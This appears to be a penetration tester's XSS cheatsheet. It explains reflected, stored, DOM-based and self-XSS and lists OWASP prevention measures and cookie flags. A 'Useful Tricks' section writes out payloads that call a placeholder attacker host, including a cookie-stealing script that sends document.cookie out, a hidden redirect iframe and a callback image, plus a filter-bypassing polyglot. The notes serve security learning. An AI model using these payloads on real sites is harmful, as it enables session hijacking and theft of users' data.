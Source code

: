# XSS Cheatsheet

[Portswigger](https://portswigger.net/web-security/cross-site-scripting) states that: *"Cross-site scripting (also known as XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application. It allows an attacker to circumvent the same origin policy, which is designed to segregate different websites from each other. Cross-site scripting vulnerabilities normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data. If the victim user has privileged access within the application, then the attacker might be able to gain full control over all of the application's functionality and data."*

XSS manipulates a vulnerable web site to return malicious JavaScript to victims. The JavaScript is either executed client-side in the browser or server-side in a database or cached by the server. All XSS payloads are executed in the context of the user that visited the page with the XSS payload. Unsanitized data can allow attacker to inject client side scripts into web pages and execute malicious code.

For executing malicious JavaScript client-side the attacker is targeting the browser parsers to access and modify the DOM. *[The Document Object Model (DOM)](https://developer.mozilla.org/en-US/docs/Web/API/Document_Object_Model/Introduction) is a programming interface for web documents. It represents the page so that programs can change the document structure, style, and content. The DOM represents the document as nodes and objects; that way, programming languages can interact with the page.. without the it*  *the JavaScript language wouldn't have any model or notion of web pages, HTML documents, SVG documents, and their component parts..The DOM is not part of the JavaScript language, but is instead a Web API used to build websites.*

For executing server-side malicious JavaScript is *stored* as data passed via a input field into a database of a web site or into the server's cached memory.  


[Types of XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting) 
- [DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting#dom-based-cross-site-scripting)
	- Description:
		 - A vulnerability existing in Client Side code rather than Server-Side code leads to the victims Browser executing malicious JavaScript
		- Is a variant of either [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting#reflected-cross-site-scripting) or [Stored XSS](https://portswigger.net/web-security/cross-site-scripting#stored-cross-site-scripting) occurs client Side in a browser's generated  internal Document Object Model (DOM), which creates a DOM tree to then render the page - executing malicious JavaScript in the process of rendering the page
	- Affects:
	- Identifying Vulnerabilities:
	- Subclasses
	- Notes
- [Stored XSS](https://portswigger.net/web-security/cross-site-scripting#stored-cross-site-scripting) 
	- Description:
		- Payload is stored in website's database or cached by server 
		- Web application retrieves and displays to all that visit that page
	- Affects:
		- [DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting#dom-based-cross-site-scripting) or Server-Side
		- Victims that visit the affect page
	- Identifying Vulnerabilities:
		- Unsanitized / Raw page functionality that stores data into a Database or Server's cache
			- For Example:
				- Comments sections allowing HTML, JavaScript
	- Subclasses:
		- Blind
	- Notes
		- Sometimes called...:
			- Persistent XSS
			- Second-order XSS
-  [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting#reflected-cross-site-scripting)
	- Description:
		- Payload resides in a link or HTTP request and attacks the user submitting the request or visiting the link 
		- *Reflected attacks are those where the injected script is reflected off the web server such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request* -  [OWASP](https://owasp.org/www-community/attacks/xss/)
	- Affects:
		- [DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting#dom-based-cross-site-scripting) or Server-Side
			- Either:
				- Link/Request is malicious script executed by the browser
				- Victims of [[Social-Engineering]] to click a link in a Email message 
		- User that is force to request the link via [[Cross-Site-Request-Forgery]] or is a victim of [[Social-Engineering]] to [[click-the-link]]
	- Identifying Vulnerabilities: 
		- [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express)
		- 
	- Subclasses
	- Notes
- [Self-XSS](https://en.wikipedia.org/wiki/Self-XSS) 
	- Description:
		- When a user is victim of [[Social-Engineering]] that SE attack deceives the victim to execute malicious JavaScript directly into the user's own browser.
	- Affects:
		- Users browser
		- Users
	- Identifying Vulnerabilities:
		- Non-technical users 
		- Individual that are not fluent or understand JavaScript or the Browser Development tools embedded in the browser they use.
	- Subclasses
	- Notes
		 

Mutated XSS | Injection that rewritten and modified by browser while parsing the markup. | Type related. 

## Prevention and Mitigation

A defence in depth approach should be applied as data should be sanitised in every location to where the data is passed.

[XSS Prevention Cheatsheet from OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
[DOM XSS Prevention Cheatsheet from OWASP ](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)

[Mozilla Cookie security relating to XSS](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#Secure_and_HttpOnly_cookie):
- *Use the `HttpOnly` attribute to prevent access to cookie values via JavaScript.*
	- *Cookies created via JavaScript can't include the `HttpOnly` flag*
- Cookie Lifetimes 
- *`SameSite` attribute set to `Strict` or `Lax` .. ensures that the authentication cookie isn't sent with cross-site requests*
- *`Secure` [flag](https://en.wikipedia.org/wiki/Secure_cookie) instructs the browser to only send the cookie over encrypted connections to prevent sniffing plain text sensitive data.*

## Identifying XSS

If the application does not filtering these characters by removing or encoding them, it may be vulnerable to XSS.
```javascript
< > ' " { } ;
```

## Useful Tricks

Listener at the ready you can check if you get a connection back:
```html
<img src=http://$attacker-ip:port />
```
[Bankrobber Ippsec Video](https://www.youtube.com/watch?v=zYmA9ECuCio)

Content injection, server a file with an iframe of no size sending victims browser to a client-side attack or to script that gathers information. 
```html
<iframe> src=http://$attacker-ip:port/file height=”0” width=”0”></iframe>
```

Cookie Stealing
```html
<script>new Image().src="http://$attacker-ip:port/cookiejar.jpg?output="+document.cookie;</script>
```

Bypass payload size restrictions by [linking to an external Javascript file](https://www.youtube.com/watch?v=Uo3cL4nrGOk).

With iframes see either `src` indicative of a URL or content with `data` or `srcdoc` in [Hacktrick Iframes in XSS, CSP, and SOP](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/iframes-in-xss-and-csp) 


## XSS Polyglots
```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```

## SKing7's XSS Filter Evasion Cheat Sheet

This cheat sheet lists a series of XSS attacks that can be used to bypass certain XSS defensive filters. Please note that input filtering is an incomplete defence for XSS which these tests can be used to illustrate. [Sking7](https://sking7.github.io/articles/218647712.html)

## References
[Owasp](https://owasp.org/www-community/attacks/xss/)
[XSS Prevention Cheatsheet from OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
[DOM XSS Prevention Cheatsheet from OWASP ](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
[XSS Wiki](https://en.wikipedia.org/wiki/Cross-site_scripting)
[sking7](https://sking7.github.io/articles/218647712.html)
[Bankrobber Ippsec Video](https://www.youtube.com/watch?v=zYmA9ECuCio)
[Owasp Types of XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)
[Hacktrick Iframes in XSS, CSP, and SOP](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/iframes-in-xss-and-csp) 
[Wikipedia Secure Cookie flag](https://en.wikipedia.org/wiki/Secure_cookie) 
[Mozilla Secure and HttpOnly Cookie ](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#Secure_and_HttpOnly_cookie)
[Portswigger XSS](https://portswigger.net/web-security/cross-site-scripting)
[Portswigger Stored XSS](https://portswigger.net/web-security/cross-site-scripting#stored-cross-site-scripting)
[Wikipedia Self-XSS](https://en.wikipedia.org/wiki/Self-XSS) 
[Mozilla DOM](https://developer.mozilla.org/en-US/docs/Web/API/Document_Object_Model/Introduction)